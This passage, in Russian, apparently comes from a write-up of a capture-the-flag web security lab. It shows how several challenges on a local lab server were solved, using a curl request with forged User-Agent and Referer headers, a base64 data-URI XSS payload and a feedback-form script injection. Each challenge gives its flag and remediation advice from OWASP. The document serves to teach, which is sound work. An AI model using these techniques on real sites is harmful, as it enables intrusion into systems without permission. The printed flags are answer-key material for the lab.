Сэмулируем визит на эту страницу с сайта "https://www.nsa.gov/". Для этого, в качестве полученной подсказки, используем "User-Agent: ft_bornToSec". Выполнить в терминале:

```
curl 'http://192.168.56.3/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' -H 'User-Agent: ft_bornToSec' -H 'Referer: https://www.nsa.gov/' | grep 'images/win.png'
```

<img width="1203" alt="Screen Shot 2022-11-14 at 08 37 01" src="https://user-images.githubusercontent.com/84193980/201585965-b463e096-b91d-44e5-a5b4-2b2980ca097d.png">

</details>

The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

### Как исправить:
- Проверьте, имеет ли ваш фреймворк встроенную защиту от CSRF , и используйте ее. Если фреймворк не имеет встроенной защиты от CSRF, добавьте токены CSRF во все запросы на изменение состояния (запросы, вызывающие действия на сайте) и проверьте их на бэкенде.
- Для программного обеспечения с отслеживанием состояния используйте шаблон токена синхронизатора.
- Для программного обеспечения без сохранения состояния используйте двойные файлы cookie.
- Реализуйте хотя бы одно средство защиты из раздела «Устранение последствий глубокоэшелонированной защиты».
	- Рассмотрите возможность использования атрибута файла cookie SameSite для сеансовых файлов cookie , но будьте осторожны и НЕ устанавливайте файл cookie специально для домена, поскольку это приведет к уязвимости системы безопасности, поскольку все поддомены этого домена совместно используют файл cookie. Это особенно проблема, когда субдомен имеет CNAME для доменов, не находящихся под вашим контролем.
	- Рассмотрите возможность реализации защиты на основе взаимодействия с пользователем для высокочувствительных операций.
	- Рассмотрите возможность использования настраиваемых заголовков запросов.
	- Рассмотрите возможность проверки происхождения с помощью стандартных заголовков
- Помните, что любой межсайтовый скриптинг (XSS) может быть использован для преодоления всех методов смягчения CSRF! (См. Памятку OWASP  по предотвращению XSS  для получения подробных инструкций о том, как предотвратить недостатки XSS.)
- Не используйте запросы GET для операций изменения состояния. Если по какой-либо причине вы это сделаете, защитите эти ресурсы от CSRF.

----

</details>

<details><summary>13. Межсайтовые сценарии</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=media&src=nsa |
|-|-|

[Cross Site Scripting](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

<details><summary>Что такое `Межсайтовые сценарии` и как обнаружено</summary>

Межсайтовый скриптинг (XSS) — это неправильное название. Название произошло от ранних версий атаки, в которых основное внимание уделялось краже межсайтовых данных. С тех пор он расширился и теперь включает внедрение практически любого контента, но мы по-прежнему называем это XSS. XSS — это серьезно и может привести к олицетворению учетной записи, наблюдению за поведением пользователя, загрузке внешнего контента, краже конфиденциальных данных и многому другому.

Пользователь может выполнить вредоносный код на клиентской машине.

Вредоносный скрипт может получить доступ к любым файлам cookie, маркерам сеанса или другой конфиденциальной информации, сохраняемой браузером и используемой на этом сайте.

## Как обнаружено ##

Проинспектируем указанную страницу. Мы видим, что картинка вставлена непосредственно в поле данных тега объекта:
	
<img width="1499" alt="Screen Shot 2022-11-14 at 09 48 15" src="https://user-images.githubusercontent.com/84193980/201598378-f9351e58-2d15-4fcb-8897-8951e3c35bb0.png">

Внедрение html обычно не работает, потому что кавычки обрабатываются правильно. Однако вы можете внедрить сериализованный html (сериализация преобразует объект в поток байтов).

[Зашифруем base64 строчку](https://decodeit.ru/base64/)
```
<script>alert
```

Получаем: PHNjcmlwdD5hbGVydA==

Заменим в оригинальном адресе источник на нашу зашифрованную строчку:
```
http://192.168.56.3/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydA==
```
	
<img width="829" alt="Screen Shot 2022-11-14 at 10 01 31" src="https://user-images.githubusercontent.com/84193980/201598332-13e15251-a8f7-4962-8cea-866991da22c5.png">

**Это работает, потому что ответ на запрос принимает text/html**

</details>

THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D

### Как исправить:
- Чтобы атаки XSS были успешными, злоумышленнику необходимо вставить и выполнить вредоносный контент на веб-странице. Каждая переменная в веб-приложении должна быть защищена. Гарантия того, что все переменные проходят проверку, а затем экранируются или дезинфицируются, называется идеальной устойчивостью к инъекциям. Любая переменная, которая не проходит через этот процесс, является потенциальной слабостью. 

----

</details>

<details><summary>14. </summary>

| Найдено на странице | http://192.168.56.3/index.php?page=feedback |
|-|-|

<details><summary>Что такое `` и как обнаружено</summary>

Отсутствие проверки может привести к тому, что злоумышленник напишет произвольный код, который будет выполняться, когда кто-либо заполнит форму.

## Как обнаружено ##

В Chrome нажмите правой кнопкой мыши на поле ввода имени -> Inspect

<img width="829" alt="Screen Shot 2022-11-14 at 14 14 22" src="https://user-images.githubusercontent.com/84193980/201647392-c764c2d8-2022-4664-a764-d51a77e9c936.png">

Для получения флага просто напишите "script" в поле Name

<img width="823" alt="Screen Shot 2022-11-14 at 13 14 24" src="https://user-images.githubusercontent.com/84193980/201645092-28fec800-26ac-46be-8d8a-8ec9c4796bd9.png">

</details>

THE FLAG IS : 0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E

### Как исправить:
- Включите функцию, которая обрабатывает крайние случаи при вводе текста.
- Большинство современных фреймворков изначально обрабатывают такие уязвимости (например, React, Vue, Angular Symfony).

----

</details>


| [README](README.md) | [subject](sublect_ru.md) | [How to start a web server](howTo.md) | defense |
|-|-|-|-|
